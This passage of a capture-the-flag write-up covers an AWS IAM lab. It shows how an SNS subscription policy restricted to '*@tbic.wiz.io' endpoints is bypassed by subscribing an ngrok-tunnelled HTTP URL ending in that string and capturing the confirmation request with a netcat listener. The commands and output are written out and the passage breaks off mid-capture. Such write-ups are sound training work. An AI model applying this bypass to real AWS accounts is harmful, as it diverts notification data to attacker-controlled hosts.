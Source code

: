 ```json
                "StringLike": {
                    "sns:Endpoint": "*@tbic.wiz.io"
                }
            }
        }
    ]
}
```

Acess to @tbic.wiz.io emails is unlikely in this case, as it would require compromise well outside of this lab. Using `aws sns subscribe` to add an invalid email address (as expected) does not work out. However, a test attempt to add a random URL ending in `/test@tbic.wiz.io` receives “pending confirmation”:

```bash
> aws sns subscribe \
    --topic-arn arn:aws:sns:us-east-1:092297851374:TBICWizPushNotifications \
    --protocol http \
    --notification-endpoint "http://8.8.8.8/test@tbic.wiz.io"
{
    "SubscriptionArn": "pending confirmation"
}
```

While there’s several ways to create a publicly listening HTTP endpoint, a friend recommended [ngrok](https://ngrok.com/) as a quick way to receive messages to a VM through very limited, momentary exposure. Setup was smooth! In a VM, launch ngrok with a port number the host will listen on:

```bash
$ ./ngrok http 81
```

In another terminal session, listen on the chosen port:

```bash
$ nc -nvlp 81
```

The ngrok tool configures port forwarding, and provides a URL for public access. This URL can then be used to `aws sns subscribe` a new subscription, ending in the specified domain:

```bash
> aws sns subscribe \
    --topic-arn arn:aws:sns:us-east-1:092297851374:TBICWizPushNotifications \
    --protocol https \
    --notification-endpoint "https://[REMOVED].ngrok-free.app/test@tbic.wiz.io"
{
    "SubscriptionArn": "pending confirmation"
}
```

Back in the VM, the SNS service delivers a verification URL to ngrok that is forwarded to our listener! Visiting the `SubscribeURL` will confirm the subscription and allow the session to receive any messages:

```bash
$ nc -nvlp 81                                                                                                                                   1 ⨯
listening on [any] 81 ...
connect to [127.0.0.1] from (UNKNOWN) [127.0.0.1] 37214
POST /test@tbic.wiz.io HTTP/1.1
Host: [REMOVED].ngrok-free.app
User-Agent: Amazon Simple Notification Service Agent
[...]
X-Amz-Sns-Message-Type: SubscriptionConfirmation
X-Amz-Sns-Topic-Arn: arn:aws:sns:us-east-1:092297851374:TBICWizPushNotifications
X-Forwarded-For: 54.239.98.24
X-Forwarded-Proto: https
{
```